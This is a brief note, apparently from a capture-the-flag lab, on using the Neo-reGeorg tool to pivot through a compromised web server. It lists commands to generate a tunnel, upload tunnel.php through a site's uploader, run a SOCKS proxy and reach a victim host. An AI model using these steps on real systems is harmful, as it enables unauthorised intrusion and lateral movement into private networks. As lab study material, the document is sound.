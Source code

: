
```
cd /opt/Neo-reGeorg
python3 neoreg.py generate -k thm
```

Upload tunnel to pivot machine website: "neoreg_servers/tunnel.php"

Run tunnel:

	python3 neoreg.py -k thm -u http://10.10.165.241/uploader/files/tunnel.php

Run curl command:

	curl --socks5 127.0.0.1:1080 http://[Victim IP]:80
